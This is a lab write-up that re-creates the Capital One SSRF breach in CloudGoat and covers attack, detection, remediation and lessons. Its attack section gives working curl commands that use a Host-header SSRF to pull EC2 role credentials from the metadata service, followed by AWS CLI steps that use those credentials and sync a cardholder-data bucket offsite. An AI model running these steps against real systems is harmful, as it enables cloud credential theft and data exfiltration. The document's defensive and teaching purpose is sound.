










# Re-creating the Capital One Breach: SSRF From the Outside In

> **CloudGoat scenario:** `cloud_breach_s3`
> **Attacker toolkit:** `curl` (no AWS account needed), AWS CLI
> **Defender toolkit:** CloudTrail → Athena, GuardDuty, Terraform
> **MITRE ATT&CK:** [T1190 Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/), [T1552.005 Cloud Instance Metadata API](https://attack.mitre.org/techniques/T1552/005/), [T1530 Data from Cloud Storage Object](https://attack.mitre.org/techniques/T1530/), [T1078 Valid Accounts](https://attack.mitre.org/techniques/T1078/)

Every other scenario in this series started with credentials. This one starts
with **nothing** — just an IP address and an anonymous attacker, exactly like the
2019 Capital One breach it re-creates. A misconfigured reverse proxy, the
instance metadata service, and an over-permissioned role turn "a public IP" into
"a bucket full of cardholder data."

---

## The environment

The only thing I'm given is the IP of an EC2 instance running a reverse proxy.
Hitting it is remarkably on-the-nose about its own flaw:



> *"This server is configured to proxy requests to the EC2 metadata service.
> Please modify your request's 'host' header and try again."*

The proxy forwards requests to whatever upstream the **`Host` header** names. Point
that header at the metadata service and the proxy fetches instance credentials on
my behalf.

---

## The attack

**1. SSRF to the metadata service → get the role name.** Setting
`Host: 169.254.169.254` makes the proxy query IMDS (IMDSv1, no token required):

```bash
curl -s http://32.198.42.162/latest/meta-data/iam/security-credentials/ -H 'Host: 169.254.169.254'
# → cg-banking-WAF-Role-cgidtk6eh0tp4s
```



**2. Steal the credentials:**

```bash
curl -s http://32.198.42.162/latest/meta-data/iam/security-credentials/cg-banking-WAF-Role-cgidtk6eh0tp4s -H 'Host: 169.254.169.254'
```



`{"Code": "Success", "AccessKeyId": "...", "SecretAccessKey": "...", "Token": "..."}`
— the EC2 role's live credentials, handed out to an attacker who never had an
account.

**3. Assume the role.** These are temporary credentials, so the session token is
mandatory:

```bash
aws configure --profile erratic      # AccessKeyId + SecretAccessKey
aws configure set aws_session_token "<Token>" --profile erratic
aws sts get-caller-identity --profile erratic
```



**4. Breach the bucket.** The role carries `AmazonS3FullAccess`, so I enumerate
and download the sensitive bucket:

```bash
aws s3 ls --profile erratic
aws s3 sync s3://cg-cardholder-data-bucket-cgidtk6eh0tp4s ./cardholder-data --profile erratic
```



`cardholder_data_primary.csv`, `cardholder_data_secondary.csv`,
`cardholders_corporate.csv` — exfiltrated to my machine. That's the whole Capital
One pattern, start to finish, from a single public IP.

---

## Root cause

An internet-facing reverse proxy forwarded attacker-controlled `Host` headers to
the instance metadata service (IMDSv1, `http_tokens = "optional"`), exposing the
EC2 role's credentials. The role then had `AmazonS3FullAccess` — far more than it
needed — over a bucket of sensitive data. Three compounding failures: the proxy,
IMDSv1, and the over-broad role.

---

## Detection

The SSRF and the metadata read never hit CloudTrail — detection follows the
*use* of the stolen credentials, and this scenario's signature is **data
exfiltration**, visible because S3 **data events** were enabled in the lab build.

**Detection 1 (the clean signal) — the WAF role touching S3 from an external
IP.** This role should only ever call the API from the instance itself:

```sql
SELECT eventtime, eventname,
       useridentity.sessioncontext.sessionissuer.username AS role,
       sourceipaddress
FROM cloudtrail_logs_vulnerable_lab_logs_cmr
WHERE useridentity.sessioncontext.sessionissuer.username = 'cg-banking-WAF-Role-cgidtk6eh0tp4s'
  AND eventsource = 's3.amazonaws.com'
ORDER BY eventtime DESC;
```



`ListBuckets`, `ListObjects`, and a run of `GetObject` — all from an external IP
that isn't the instance. That mismatch is the detection.

**Detection 2 (and a tuning lesson) — bulk object reads.** A naive "count
`GetObject` by principal" query is instructive precisely because of what it gets
*wrong*: the top result is `iamadmin` with tens of thousands of reads from
`athena.amazonaws.com` — that's Athena reading its own query-results bucket, pure
noise. The real exfiltration is the WAF role's object reads from the external IP.
The fix is to exclude AWS-internal callers:

```sql
SELECT useridentity.arn AS who, sourceipaddress, COUNT(*) AS object_reads
FROM cloudtrail_logs_vulnerable_lab_logs_cmr
WHERE eventname = 'GetObject'
  AND sourceipaddress NOT LIKE '%amazonaws.com%'   -- drop Athena/AWS-internal noise
GROUP BY useridentity.arn, sourceipaddress
ORDER BY object_reads DESC;
```



A real detection pipeline lives or dies on noise like this — surfacing the
attacker's reads means first filtering out the service's own legitimate access.

**GuardDuty** fired **two High-severity findings**, both
`UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS` — one on
the EC2 instance, one on the `cg-cardholder-data-bucket` — flagging the role's
credentials used from an external IP:



As in every scenario here, GuardDuty caught the credential/data **misuse**, not
the SSRF **technique** that produced it — the SSRF never touched the API.

---

## Remediation

Primary fix — **enforce IMDSv2**, which defeats the Host-header SSRF because the
proxy's blind `GET` can't perform the required token `PUT`:

```bash
aws ec2 modify-instance-metadata-options \
  --instance-id i-0e49a495353689a8c \
  --http-tokens required --http-endpoint enabled \
  --http-put-response-hop-limit 1 \
  --profile iamadmin --region us-east-1
```



Terraform representation is in
[`remediate/metadata_options_fix.tf`](../cloud_breach_s3/remediate/metadata_options_fix.tf).
Supporting fixes (each a real finding): reconfigure the proxy so it cannot
forward `Host` headers to link-local addresses, scope the role down from
`AmazonS3FullAccess` to the one bucket it needs, and lock the bucket (Block Public
Access, least-privilege policy, default encryption).

---

## Verification

Re-running the exact credential grab after the fix returns **nothing** — the
metadata endpoint now rejects the proxy's token-less GET, so no credentials come
back:



Same request that leaked credentials minutes earlier, now closed.

---

## Takeaways

- **IMDSv2 would have prevented Capital One.** One instance attribute
  (`http_tokens = required`) neutralizes SSRF-based metadata theft — the exact
  class of attack behind one of the largest cloud breaches on record.
- **Over-permissioned roles turn a foothold into a breach.** The SSRF only
  mattered because the role it exposed had `AmazonS3FullAccess`. Least privilege
  limits the blast radius even when the perimeter fails.
- **Detection is a noise problem.** The bulk-read query only became useful after
  filtering out the service's own legitimate access — real detection engineering
  is as much about suppressing false positives as finding the signal.
- **S3 data events are not optional for breach detection.** `GetObject` is a data
  event, off by default — without it, the actual exfiltration is invisible.
